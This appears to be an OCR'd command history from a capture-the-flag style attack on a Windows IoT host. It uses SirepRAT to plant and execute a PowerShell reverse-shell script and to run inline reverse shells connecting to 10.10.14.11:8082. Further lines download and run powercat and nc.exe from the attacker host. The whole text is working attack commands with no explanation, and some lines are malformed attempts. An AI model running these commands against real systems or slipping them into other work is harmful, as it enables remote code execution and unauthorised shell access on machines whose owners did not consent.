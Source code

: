 ```
    python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\n.ps1" --data "$client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.11\",8082);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    python SirepRAT.py 10.10.10.204 PutFileOnDevice --remote_path "C:\Windows\System32\n.ps1" --data "$client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.11\",8082);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args " C:\Windows\System32\n.ps1"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args " -c 'wget http://10.10.14.11'"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" --args " -c 'wget http://10.10.14.11'"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" --args " -c hostname"
python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\n.ps1"
ls
cd payloads/
ls
cd ..
ls
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -c \"$sm=(New-Object Net.Sockets.TCPClient('10.10.14.11',8082)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}\""
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell 'C:\Windows\System32\n.ps1'"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell iex (New-Object System.Net.WebClient).DownloadString('http://10.10.14.11/powercat.ps1');powercat -c 10.10.14.11 -p 8082 -e powershell"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell iex (New-Object System.Net.WebClient).DownloadFile(http://10.10.14.11/nc.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c pwd"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c mkdir C:/temp"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c mkdir C:/\temp"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c mkdir C:\temp"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir c:\temp"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell iex (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.11/nc.exe') -outfile c:\temp\n1.exe"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir c:\temp"
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.11/nc.exe') -outfile c:\temp\n1.exe"
```